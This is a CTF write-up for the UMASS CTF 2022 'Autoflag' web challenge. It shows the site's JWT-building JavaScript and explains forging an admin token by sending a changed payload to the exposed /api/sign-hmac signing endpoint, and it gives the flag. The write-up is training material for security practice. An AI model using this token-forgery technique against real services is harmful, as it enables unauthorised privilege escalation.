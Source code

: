 # UMASS CTF 2022 WEB - Autoflag
-[ ] Flag: UMASS{W0W_TH1$_1$_4_C00L_FL4G_BRUH!_69420}
## Question
    My friend made this website that automatically serves you a flag. He says he patched it recently and would pay me 100 v-bucks if I could get his super secret flag. Please help me out!!!
http://34.148.103.218:4829
## Write-up
When you open the website,you'll see this
![image](https://user-images.githubusercontent.com/94618005/162439259-6341e608-303c-4c06-bb07-301107674747.png)
then if you click on **give me flag** button,and you'll get
![image](https://user-images.githubusercontent.com/94618005/162439568-5d1b9ae7-e85e-4786-b0ca-e1b51c535802.png)

and we back to the home page,if you click on **checkout the autoflag API**,you'll lead to a github website looks like this
![image](https://user-images.githubusercontent.com/94618005/162440367-62054cef-08a3-4626-a452-6e9e3e37a3e6.png)

So first,i trying to intercept every page that i can visit.
when i intercepted cheakout the autoflag API's request,you'll see this
![image](https://user-images.githubusercontent.com/94618005/162441325-cb5f8cb6-aac8-427d-88ec-18c8c2b235e1.png)
As you can see,the response told users do not change their identify from **anonymous** to **admin**, hmmmm... it's seems like a little sus!,  
and also told users check out their github cus they moved their server to server-side.

So we checkout the source code
#### Source Code
    //AUTOFLAG API V.1 : AUTOMATICALLY AUTHENTICATE USERS THEN REDIRECT TO FLAG
    function base64url(source) {
        encodedSource = btoa(source);
        while (encodedSource.endsWith('=')) {
            encodedSource = encodedSource.substring(0, encodedSource.length - 1)
        }
        encodedSource = encodeURI(encodedSource)
        console.log(encodedSource)
        return encodedSource;
    }

    function getSignedHMAC(unsignedToken) {
        return new Promise((resolve, reject) => {
            var xhr = new XMLHttpRequest()
            xhr.open("POST", 'http://34.148.103.218:4829/api/sign-hmac', true)

            //Send the proper header information along with the request
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")

            xhr.onreadystatechange = function () { // Call a function when the state changes.
                if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
                    resolve(xhr.responseText)
                }
            }
            xhr.send(`message=${unsignedToken}`)
        })
    }

    async function signToken() {
        header = `{"typ":"JWT","alg":"HS256"}`
        data = `{"fresh":false,"iat":1648755893,"jti":"a5139f01-3e20-446c-9627-16580f32f118","type":"access","sub":"anonymous","nbf":1648755893,"exp":1648756793}`
        unsignedToken = base64url(header) + "." + base64url(data)
        console.log(unsignedToken)
        let signature = await getSignedHMAC(unsignedToken)
        signature = signature.replaceAll('+', '-').replaceAll('=', '')
        let JWT = unsignedToken + "." + signature
        document.cookie = JWT
    }

    signToken()

    document.getElementById('redir').innerText = 'Redirecting you to your flag shortly'
    setTimeout(() => {
        window.location.replace("/flag");
    }, 2000)
   when you see the source code,you can find out that this problem will send a POST requests to **/api/sign-hmac** and get a unsigned Token,
   then use it to create a new JWT.
   So we just need grab the code,and paste it in the console of this challenge.and add a console.log() under JWT.
   don't forget try to change your identify from anonymous to admin.
   Then run it,and will get this back
   ![image](https://user-images.githubusercontent.com/94618005/162445164-b62ff40e-0374-48e2-96a7-a3f1b58ebdd8.png)
   
   So now we have a new JWT that the users identify is admin,and we changed cookies with this new JWT,then we send a GET requests to /flag,and you will get
   
  ![image](https://user-images.githubusercontent.com/94618005/162447392-f9a5aa35-9601-4739-80a3-f6a47ab72fa0.png)

   If get the response like "token is expired",don't be nervous,change your exp to another datetime before you print out the new JWT. 
  
